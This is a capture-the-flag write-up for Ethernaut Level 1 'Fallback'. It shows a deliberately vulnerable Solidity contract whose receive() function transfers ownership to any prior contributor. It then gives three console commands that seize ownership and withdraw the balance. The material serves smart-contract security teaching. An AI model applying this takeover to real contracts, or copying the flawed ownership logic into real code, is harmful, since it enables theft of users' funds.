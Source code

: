 # Level 1 - Fallback ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/1" %}

### Level Setup

{% hint style="info" %}
Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0



Things that might help:

* How to send ether when interacting with an ABI
* How to send ether outside of the ABI
* Converting to and from wei/ether units (see `help()` command)
* Fallback methods
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Fallback.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
{% endcode %}

### Exploit

The exploit in this contract is in the `receive()` function as it changes the owner to _**any**_ `msg.sender` provided that the `msg.sender` has previously been added to the `contributions` mapping.

1. Start by contributing to the contract as this is needed to pass the `require` check in the `receive()` function. The contribution must be less than `0.001 ETH` to pass the `require` on the `contribute()` function (`line 23`).

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await contract.contribute({
    value: toWei('0.0005'),
})
```
{% endcode %}

2. Become the owner by sending an amount of ETH directly to the contract which will [get picked up by](../../solidity-notes/fallback.md) the `receive()` function (`line 38`).

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await sendTransaction({
    to: contract.address,
    from: player,
    value: toWei('0.0001')
})
```
{% endcode %}

3. Now you are the owner, withdraw all the funds.

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await contract.withdraw()
```
{% endcode %}

4. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learned about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
{% endhint %}

### Notes

* This exploit shows how logic in the `receive()` function should be carefully reviewed as even though it can't be easily called through a standard contract function call, it's still possible to call it.
* The logic doesn't make much sense as I don't see what was trying to be achieved. Maybe to have a "secret" way to change the owner?

